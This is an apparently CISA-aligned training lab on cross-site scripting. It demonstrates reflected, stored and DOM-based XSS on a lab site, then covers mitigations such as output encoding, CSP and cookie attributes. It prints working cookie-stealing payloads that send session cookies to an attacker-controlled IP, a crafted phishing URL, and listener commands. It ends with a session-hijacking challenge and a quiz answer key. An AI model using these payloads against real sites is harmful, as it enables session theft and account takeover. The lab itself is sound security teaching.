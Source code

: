 # Web Application Penetration Testing: Cross-Site Scripting (XSS)

This lab introduces users to Cross-Site Scripting (XSS) attacks and discusses techniques for mitigating this type of vulnerability in web sites. 

In this alert, <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>, CISA provides the following definition for cross-site scripting vulnerabilities:

Cross-site scripting vulnerabilities arise when manufacturers fail to properly validate, sanitize, or escape inputs. These failures allow threat actors to inject malicious scripts into web applications, exploiting them to manipulate, steal, or misuse data across different contexts. Although some developers employ input sanitization techniques to prevent XSS vulnerabilities, this approach is not infallible and should be reinforced with additional security measures.`[1]`

Please see the recently released (January 23, 2025) CISA alert referencing a five-year-old vulnerability in jQuery that was added to their <a href="https://www.cisa.gov/known-exploited-vulnerabilities-catalog" target="_blank">Known Exploited Vulnerabilities Catalog</a> based on evidence of active exploitation.

- <a href="https://www.cisa.gov/news-events/alerts/2025/01/23/cisa-adds-one-known-exploited-vulnerability-catalog" target="_blank">CISA Adds One Known Exploited Vulnerability to Catalog</a>


| &#9201; LAB TIME                           |
| ------------------------------------------ |
| This lab is expected to take sixty (60) minutes. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION                                              |
| ------------------------------------------------------------ |
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives

 - Understand cross-site scripting attacks and how they work.
 - Perform a reflected cross-site scripting attack.
 - Perform a stored cross-site scripting attack.
 - Perform a DOM-based cross-site scripting attack.
 - Review best practices to mitigate cross-site scripting attacks.

## Learner Expectations

 - Learners should be comfortable with Linux, web browsers, HTML, JavaScript and command-line operations.

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by managing the attack surface of internet accessible assets.

**NICE Work Roles**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Defensive Cybersecurity, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1563</a>: Implement system security measures
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1119</a>: Recommend vulnerability remediation strategies

<!-- cut -->

## Scenario

In this lab, you investigate common cross-site scripting attacks in web sites. You start the three most common cross-site scripting attack types: Reflected XSS, Stored XSS and DOM-based XSS. You walk through examples of how each of these attacks can be used against a web site followed with a discussion of best practices to defend against each. The lab concludes with a mini-challenge where you perform a cross-site scripting attack to take over a user's session and gain access to their credit card data.

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Kali | Kali Linux | user | tartans |

### What is Cross-Site Scripting?

According to OWASP, <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">Cross-Site Scripting can be defined as</a>:

Cross-Site Scripting (XSS) attacks are a type of injection in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.`[2]`

## Phase 1: Cross-site Scripting Attacks

<details>
<summary>
<h3>What is a Reflected Cross-Site Scripting Attack?</h3>
</summary>
<p>

Reflected cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding. For example, a web site's search feature accepts user input that is then displayed as part of the search results. Let's break this down into a few simple steps.

1. A malicious actor enters JavaScript into the search textbox and submits their search request.
2. The script is sent to the web server and processed as regular text.
3. The script is returned to the client as part of the response.
4. The inclusion of this unvalidated and unencoded script could lead to execution in the client web browser.

</p>
</details>

<details>
<summary>
<h3>Reflected Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

Our goal in this part of the lab is to execute a reflected cross-site scripting attack. Based on the definition above, we need to find a place that will let us inject a script that will be processed on the server and then returned as part of the HTTP response. The first step is to locate a potential injection point. The market web site has a search feature that we will attempt to exploit.

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image1.png](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `PRODUCT SEARCH` link at the top of the page.

![s13-image2.png](./img/s13-image2.png)

4. (**Kali, Firefox**) Enter the following JavaScript into the text box and click the `Search` button.

```
<script>alert("xss");</script>
```

![s13-image3.png](./img/s13-image3.png)

5. (**Kali, Firefox**) This should produce an alert dialog box with the string `xss` displayed as the message. 

![s13-image4.png](./img/s13-image4.png)

The steps below indicate we have discovered a reflected cross-site scripting vulnerability: 
   - We entered JavaScript into the web site's `Search` field.
   - Clicking the `Search` button caused the web browser to make an HTTP POST to the web server.
   - The web server processed our request, then included the JavaScript in the results, which were executed when rendered by the browser.

What are some of the potential impacts of a reflected cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. For example, if an attacker knows you shop on the market web site, they could set up their own server as a listener and then create a phishing email with an encoded hyperlink that contains JavaScript. When executed, the script could add the target user's session cookie to a querystring that calls back to the malicious server, providing the attacker with a usable session token that could be used to log in and impersonate the target user. 

One of the difficult parts about using a reflected attack is timing. In the scenario above, if the targeted user is not currently logged in, they may not have an active session cookie that can be stolen. In the next section we discuss stored cross-site scripting attacks, which can make life easier for malicious actors because their dangerous scripts can be persisted and executed repeatedly by multiple users.


**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*

</p>
</details>

<details>
<summary>
<h3>What is a Stored Cross-Site Scripting Attack?</h3>
</summary>
<p>

Stored cross-site scripting, sometimes referred to as persistent cross-site scripting, occurs when a web site takes untrusted input and later displays that data without any form of validation or encoding. This allows a malicious actor to inject and store scripts that will later be accessed and executed when returned to a client browser.

An example of this would be when a web site accepts a product review, comment or blog post and then displays that text on the web site without using some form of validation or encoding. Let's provide an example with a few simple steps.

1. A malicious actor posts a product review that contains JavaScript similar to the following:

```
<script type="text/javascript">document.location="http://10.5.5.105/?c="+document.cookie;</script>
```

2. The product review for this item, or in our case the malicious script, is stored in the web site's product review database table.

3. Each time someone visits the web page that contains this text, the script will be executed and send a cookie to a server controlled by a malicious actor.

In the next section, you perform a stored cross-site scripting attack.

</p>
</details>

<details>
<summary>
<h3>Stored Cross-Site Scripting attack walk-through</h3>
</summary>
<p>

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image1.png](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `LOGIN` link on the top navigation menu. On the Login page, enter the following credentials, then click the `Login` button.

```
Email: bcampbell@skills.hub
Password: operating
```

![s13-image5-941250190.png](./img/s13-image5.png)

4. (**Kali, Firefox**) After logging in, you are redirected back to the market home page. Click the `View` link on one of the products. This takes you to a product detail page for that item where you can post a product review.

![s13-image6.png](./img/s13-image6.png)

![s13-image7.png](./img/s13-image7.png)

5. (**Kali, Firefox**) Click the `Add a Review` button.

![s13-image8.png](./img/s13-image8.png)

6. (**Kali, Firefox**) Select any number of stars from the `Rating` field.

![s13-image9.png](./img/s13-image9.png)

7. (**Kali, Terminal**) Before saving our review, we want to set up a simple web server as a listener to see if our malicious script can capture any session cookies. Open a terminal window and enter the following command to start a Python web server listening on port 80.

```
python3 -m http.server 80
```

![s13-image10.png](./img/s13-image10.png)

8. (**Kali, Terminal**) Open a new terminal window on your Kali VM and get your IP address by typing `ip a` then hitting `enter`. Your IP address is the address attached to the `eth0` network interface. In this case, the IP address is `10.5.5.113`, but your IP address may be different. Take note of this IP address because we need it in the next step.

![s13-image11.png](./img/s13-image11.png)

9. (**Kali, Firefox**) Go back to the product review page on the market web site. The `Review` text box looks like a great place to inject and store malicious JavaScript. Enter the following text in the `Review` field, making sure to replace the IP address of `10.5.5.113` with your IP address obtained in the previous step.

When this script executes the `document.cookie` command will retrieve the cookies from the web browser and those key/value pairs will be appended to the querystring in the URL. The `document.location` command will then redirect the user's web browser to our malicious web server on `10.5.5.113` with the cookie values included in the HTTP GET request. In the next step, you will see the results of the script execution.

```
<script type="text/javascript">document.location="http://10.5.5.113/?c="+document.cookie;</script>
```

![s13-image12.png](./img/s13-image12.png)

10. (**Kali, Firefox**) Click the `Submit Review` button to save your review. You are immediately redirected to `http://10.5.5.113/?c=PHPSESSID=0878tio7oh2jjdqmb1j8ckviaj`. Your IP address and PHPSESSID cookie value could be different, but the result should be the same. 

![s13-image13.png](./img/s13-image13.png)

11. (**Kali, Terminal**) Return to the terminal window running the Python web server. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![s13-image18.png](./img/s13-image18.png)

What just happened here? When you saved your product review, the script you entered was saved to the product review database. When the web site redirected you back to the product's detail page your script was executed.

The following steps below indicate that we have discovered a stored cross-site scripting vulnerability: 
   - We entered JavaScript into the product `Review` text box.
   - Clicking the `Submit Review` button saved your script as a product review.
   - When the web server redirected you back to the product details page all the product reviews were loaded. Due to the lack of encoding of the user-supplied text, the script in our review was executed.
   - The executed script grabbed the PHPSESSID cookie value and appended it to a querystring before redirecting the browser to our malicious web site. 
   - One of the most important things to note is that the script has been stored and will execute for every user that loads this page, potentially providing us with a large number of session IDs that we can use to authenticate as different users of the market web site.

What are some of the potential impacts of a stored cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site that the targeted user is allowed to perform. 

There are a few differences between stored and reflected cross-site scripting attacks:
 - In a stored XSS attack, the script is stored in the application in locations such as databases, files, logs, etc. There is no need for the attacker to use an external source to introduce the script.
  - In a stored XSS attack, the script can be executed repeatedly by multiple victims. For example, if a script is added to a product review, the script could be executed by every user that views that review.

**Knowledge Check Question 3**: *What ten-letter word is another name for stored cross-site scripting?*

In the next section, we discuss DOM-based cross-site scripting attacks.

</p>
</details>

<details>
<summary>
<h3>What is a DOM-based Cross-Site Scripting Attack?</h3>
</summary>
<p>

<a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">Invicti offers one of the better explanations of DOM-based cross-site scripting</a> on their web site: 

The DOM (Document Object Model) is an internal data structure that stores all the objects and properties of a web page. For example, every tag used in HTML code represents a DOM object. Additionally, the DOM of a web page contains information about such properties as the page URL and meta information. Developers may refer to these objects and properties using JavaScript and change them dynamically.

The Document Object Model is what makes dynamic, single-page applications possible. However, it is also what makes DOM-based cross-site scripting possible.

Unlike all other types of cross-site scripting, DOM-based XSS is purely a client-side vulnerability. This means that during a DOM-based XSS attack, the payload never reaches the server. The entire attack happens in the web browser.

DOM-based XSS is similar to reflected XSS because no information is stored during the attack. A DOM-based XSS attack is also conducted by tricking a victim into clicking a malicious URL. `[3]`

What is the difference between DOM-based cross-site scripting and reflected cross-site scripting?

The most important difference between these XSS techniques is where the attack is injected. Reflected cross-site scripting attack payloads are injected on the server side while DOM-based payloads are injected on the client/browser side.

</p>
</details>

<details>
<summary>
<h3>DOM-based Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

What are some of the potential impacts of a DOM-based cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. Because reflected and stored cross-site scripting attacks both involve server side interaction, evidence of these kinds of attacks can be logged and potentially even mitigated using tools such as Web Application Firewalls (WAF). In a DOM-based attack, all the execution takes place on the client side, thus there are often fewer logs and artifacts left behind after this kind of attack.

1. (**Kali**) Open the `Kali` console and login with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub/promos.php`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![s13-image14.png](./img/s13-image14.png)

3. (**Kali, Firefox**) You should be looking at a page similar to the screen capture below. Here we can see a list of current promotions, including a link at the bottom of the page that says `Apply Coupons`. When the `Apply Coupons` link is clicked, you are greeted with a dialog box that says `Coupons applied to your account!`. 

![s13-image15.png](./img/s13-image15.png)

4. (**Kali, Firefox**) Let's see if we can exploit this. Right click on the `Apply Coupons` link and select `Inspect` from the menu. The HTML code associated with this button looks like this:

```
<a id="couponlink" href="#" onclick="alert('Coupons applied to your account!');">Apply Coupons</a>
```

![s13-image16.png](./img/s13-image16.png)

5. (**Kali, Firefox**) Below the link we can see a `<script>` tag. Let's expand this.

```
const params = new URLSearchParams(window.location.search);
const action = params.get("apply");
if (action) {
      document.getElementById("couponlink").setAttribute("onclick", action);
   }
   else {
      document.getElementById("couponlink").setAttribute("onclick", "alert('Coupons applied to your account!');");
   }
```

![s13-image17.png](./img/s13-image17.png)

6. (**Kali, Firefox**) Based on the code, we can see that if there is a query string value named `apply` we can modify the behavior of the `onclick` event of this link.

7. (**Kali**) Before we go any further, let's start our malicious web server that will be used to collect session IDs from those that click on our phishing email. We will provide additional details about that in later steps.

8. (**Kali**) Open a terminal window and get the IP address of your Kali machine by typing `ip a`. Look at the IP address associated with `eth0`. In our case it is `10.5.5.113`, but your IP address may be different.

![s13-image11.png](./img/s13-image11.png)

9. (**Kali**) Enter the following command in your terminal window to start a local web server listening on port 9000 on your Kali machine.

```
python3 -m http.server 9000
```

![s13-image19.png](./img/s13-image19.png)

10. (**Kali, Firefox**) Imagine the scenario where a malicious actor creates a link in a phishing email with the hopes of capturing an actively logged-in user's session ID so they can impersonate them on the market web site. We can begin by creating a link like the one below. Make sure to replace the IP address of `10.5.5.113` with the IP address of your Kali VM from Step 8.

```
http://market.skills.hub/promos.php?apply=window.location.href=%27http://10.5.5.113:9000?session=%27%2Bdocument.cookie;
```

When a user clicks the link above that would be included in the email, they are taken to the `promos.php` page. The JavaScript on the page executes and modifies the link based on the code included in the `apply` querystring value. Once the user clicks the `Apply Coupons` page, the `onclick` event fires and the user's browser is redirected to a malicious web server (`http://10.5.5.113:9000`) with the current session cookie value included in the `session` querystring value.

![s13-image20.png](./img/s13-image20.png)

It would probably be a good idea for the malicious actor to take one additional step to obfuscate the link by URL encoding it. We can do that with tools such as CyberChef. This step is not necessary for this lab, thus the details of how to do this will not be covered here.

```
http%3A%2F%2Fmarket%2Eskills%2Ehub%2Fpromos%2Ephp%3Fapply%3Dwindow%2Elocation%2Ehref%3D%2527http%3A%2F%2F10%2E5%2E5%2E113%3A9000%3Fsession%3D%2527%252Bdocument%2Ecookie%3B
```

11. (**Kali, Firefox**) To simulate being the victim of this phishing scam, open a new browser window and paste the link you created in Step 10 into the URL bar then hit `enter`. 

![s13-image20.png](./img/s13-image20.png)

12. (**Kali, Firefox**) You are taken to the `promos.php` page of the market web site. Click the `Apply Coupons` link.

13. (**Kali, Firefox**) Notice that you have been redirected to the malicious web server running on your Kali machine. Note that the URL contains a querystring value named `session` which contains the `PHPSESSID` cookie value. 

```
http://10.5.5.113:9000/?session=PHPSESSID=9iv85t3j2uri6p3j4jn5spnb7v
```

![s13-image21.png](./img/s13-image21.png)

14. (**Kali, Terminal**) Return to the terminal window running the Python web server on port 9000. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![s13-image22.png](./img/s13-image22.png)

Had this user been logged in to the market web site, you could place that `PHPSESSID` value in your own cookie for the market web site and impersonate them without further authentication.

**Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*

In the next section, we discuss cross-site scripting mitigation techniques.

</p>
</details>

<br />

## Phase 2: Mitigation Techniques

<details>
<summary>
<h3>Mitigation Techniques</h3>
</summary>
<p>

Phase 1 of this lab covered several ways to perform cross-site scripting attacks against a web site. Phase 2 covers seven ways to help prevent this class of attacks. They are:

1. Use modern frameworks
2. Encode output
3. Validate input
4. Sanitize HTML / Whitelisting
5. Content Security Policy (CSP)
6. Web application firewalls
7. Cookie attributes

#### Use Modern Frameworks

Modern web frameworks such as React, Angular, Vue.js, ASP.NET and others provide many built-in features to help mitigate cross-site scripting attacks. They provide safe default methods to encode and escape potentially dangerous output. Keep in mind that developers can override and bypass these options, so the use of a framework does not guarantee the prevention of cross-site scripting vulnerabilities. It is not uncommon for bugs to be found that allow malicious actors to bypass the default protections provided by frameworks. It is important to keep third-party software and libraries updated.

#### Encode Output

In order to help prevent cross-site scripting attacks, all untrusted and user-supplied data should be treated as potentially malicious. Before displaying this data on a web page, you should consider escaping and encoding the output. 

- As mentioned above, using modern frameworks can provide a lot of help as they are widely used and well tested. Trying to build your own framework or library to handle cross-site scripting is not recommended.

- HTML encoding can be used to replace special characters like `<` and `>`. An example would be encoding this: `<script>alert('XSS');</script>` to: `&lt;script&gt;alert('XSS');&lt;/script&gt;`

The most commonly encoded characters and their conversions include:

| Character | HTML Entity      |
|-----------|------------------|
| `<`       | `&lt;`           |
| `>`       | `&gt;`           |
| `&`       | `&amp;`          |
| `"`       | `&quot;`         |
| `'`       | `&#x27;`         |

#### Validate Input

Input validation is the process of verifying that all data entered into a system by external sources is in a safe and expected format. <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">A more detailed explantion</a> offered by the OWASP foundation is provided below:

Goals of Input Validation  
Input validation is performed to ensure only properly formed data is entering the workflow in an information system, preventing malformed data from persisting in the database and triggering malfunction of various downstream components. Input validation should happen as early as possible in the data flow, preferably as soon as the data is received from the external party.

Data from all potentially untrusted sources should be subject to input validation, including not only Internet-facing web clients but also backend feeds over extranets, from suppliers, partners, vendors or regulators, each of which may be compromised on their own and start sending malformed data.

Input Validation should not be used as the primary method of preventing XSS, SQL Injection and other attacks which are covered in respective cheat sheets but can significantly contribute to reducing their impact if implemented properly.

Input Validation Strategies  
Input validation should be applied at both syntactic and semantic levels:

Syntactic validation should enforce correct syntax of structured fields (e.g. SSN, date, currency symbol).
Semantic validation should enforce correctness of their values in the specific business context (e.g. start date is before end date, price is within expected range).
It is always recommended to prevent attacks as early as possible in the processing of the user's (attacker's) request. Input validation can be used to detect unauthorized input before it is processed by the application. `[7]`

#### Sanitize HTML

This technique is very similar to and works in conjunction with the steps listed above in the `Encoding Output` section. To sanitize HTML, you need to remove or modify HTML elements, attributes and scripts that are potentially dangerous. 

- Use libraries such as `DOMPurify` to sanitize HTML. This library is written in JavaScript and works with most modern web browsers. You can find additional information <a href="https://github.com/cure53/DOMPurify" target="_blank">here</a>.

- Whitelisting is a technique that involves allowing only specific HTML elements and attributes considered safe to be displayed. Any output that is not specifically allowed on the whitelist should either be safely encoded or removed.

#### Content Security Policy

A Content Security Policy (CSP) is a feature that exists in most modern web browsers to help prevent cross-site scripting by limiting the resources a browser loads. This feature works by configuring the web server to add a Content-Security-Policy HTTP response header that contains one or more directives such as: `default-src`, `img-src`, `style-src`, `object-src`, `base-uri`, `strict-dynamic`, `frame-ancestors`

For detailed discussions of Content Security Policy information, read the following documents: <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP" target="_blank">Content Security Policy</a> and <a href="https://portswigger.net/web-security/cross-site-scripting/content-security-policy" target="_blank">PortSwigger: Content security Policy</a>.

#### Web Application Firewalls

Web Application Firewalls (WAF) act as a reverse-proxy server sitting in front of a web site and are used to intercept and monitor HTTP traffic. By monitoring HTTP traffic headed inbound to the server from the internet, WAFs can be configured to filter strings suspected of containing XSS, SQL injection and other similar types of attacks. However, due to their location, they can't defend against clients-side cross-site scripting attacks such as DOM-based XSS. 

#### Cookie Attributes

Cookie attributes provide additional information about a cookie that instructs web browsers how to handle a cookie. They provide details that determine everything from the lifespan to the security of the cookie. 

The `HttpOnly` attribute helps protect cookies from cross-site scripting (XSS) attacks by instructing the browser that the cookie should not be accessible via client-side scripts. In the event that a script executes on the client-side, it cannot access a protected cookie and may help reduce leaking sensitive data.

The `Secure` attribute indicates that cookies should only be sent using HTTPS. While most web sites have begun using HTTPS by default, cookies should still have the Secure directive explicitly enabled.

The `Expires` and `Max-Age` cookie attributes should be configured so cookies expire as soon as they are no longer needed. Login cookies and session identifiers, in particular, should be set to expire as quickly as possible.

The `SameSite` cookie attribute forbids the browser from sending cookies to a third-party web site via cross-origin requests. Where possible, it is recommended that you set  `SameSite=Strict`. This causes the web browser to only send cookies for first party context requests. This means the requests must originate from the site that set the cookie, based on the URL.

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*

## Additional Resources

Protecting against cross-site scripting is hard. As is true in most security contexts, taking a multi-layered approach will provide the best results, but may not guarantee that all vulnerabilities have been addressed. The mitigation techniques discussed here are not a complete list and only provide a high-level overview of each of the topics. We encourage you to follow the links and resources provided to learn more about each subject.

<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html" target="_blank">Cross Site Scripting Prevention Cheat Sheet</a>

<a href="https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html" target="_blank">DOM based XSS Prevention Cheat Sheet</a>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Exploit the `SITE FEEDBACK` feature of the market web site (`http://market.skills.hub/feedback.php`) to execute a stored cross-site scripting vulnerability.
- Use stored cross-site scripting to send a logged-in user's `PHPSESSID` cookie value to a server you control, such as a web server or netcat listener. 
- Use this cookie to impersonate another market user and obtain the last 4 digits of their credit card number from their profile page.
  - Cookies are available in Firefox under the `Storage` tab of the `Web Developer Tools`. 

- Once you have added and tested your malicious script, navigate to `https://skills.hub/lab/tasks` and click the `Submit` button to test your exploit. 

![s13-image23.png](./img/s13-image23.png)

- You can click the `Refresh` button that appears to check the status of the test.

![s13-image24.png](./img/s13-image24.png)

- After the following message appears under the `Status` column, return to the market web site and use your captured `PHPSESSID` cookie value to obtain the targeted user's credit card data.

```
Success -- The user browsed the feedback site with their session token.
```

![s13-image25.png](./img/s13-image25.png)

### Grading Check

**Grading Check Question 1**: *What are the last 4 digits of the impersonated market user's credit card?*

`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can reference the solution guide using the link below.*

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

This lab provided hands-on experience with common cross-site scripting (XSS) attacks and their defenses. You started with reflected cross-site scripting attacks, then continued with stored and DOM-based attacks. These exercises demonstrated how attackers can exploit various types of cross-site scripting vulnerabilities and how proper mitigation techniques can help reduce these vulnerabilities. 

During this lab, you:

 - Creating reflected, stored and DOM-based cross-site scripting attacks for understanding
 - Using and even combining these different scripting attacks to achieve various results
 - Mitigating techniques you can use to protect websites from those attack methods

Skills exercised:

- S0248: Skill in performing target system analysis
- S0440: Skill in identifying target vulnerabilities
- S0504: Skill in identifying vulnerabilities
- S0667: Skill in assessing security controls
- S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*
 - *`XSS`*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*
 - *`reflected`*

**Knowledge Check Question 3**: *What 10 letter word is another name for stored cross-site scripting?*
 - *`persistent`*

 **Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*
  - *`document object model`*

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*
 - *`&amp;`*

### References

- [1] <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>

- [2] <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">OWASP Cross-Site Scripting</a>

- [3] <a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">DOM-based cross-site scripting</a>

- [4] <a href="https://portswigger.net/web-security/cross-site-scripting/reflected" target="_blank">Reflected XSS</a>

- [5] <a href="https://portswigger.net/web-security/cross-site-scripting/stored" target="_blank">Stored XSS</a>

- [6] <a href="https://portswigger.net/web-security/cross-site-scripting/dom-based" target="_blank">DOM-based XSS</a>

- [7] <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">OWASP Input Validation Cheat Sheet</a>

- [8] <a href="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" target="_blank">XSS Filter Evasion Cheat Sheet</a>

- [9] <a href="https://gchq.github.io/CyberChef/" target="_blank">CyberChef</a>

- [10] <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>

- [11] <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>
